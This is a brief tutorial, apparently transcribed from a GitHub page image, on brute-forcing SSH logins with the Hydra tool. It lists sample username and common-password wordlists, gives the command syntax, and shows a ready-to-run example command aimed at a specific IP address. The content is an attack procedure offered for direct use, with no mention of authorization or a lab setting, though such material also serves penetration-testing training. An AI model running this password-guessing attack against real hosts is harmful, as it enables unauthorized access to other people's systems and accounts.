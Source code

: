 1. **Prepare your wordlists.** Create or download text files containing potential usernames and passwords. For example:
    1. username.txt:
```
text
root
admin
user
test
```
    2. password.txt:
```text
password
123456
changeme
qwerty```
2. **Construct the Hydra command.** The basic command syntax for SSH brute-forcing with Hydra is:

```hydra -L <userlist.txt> -P <passlist.txt> <target_ip> ssh```

3. Run the command. Execute the command in your terminal, replacing the placeholders with your actual file names and the target IP address.Example: ```hydra -L username.txt -P password.txt 192.168.1.11 ssh```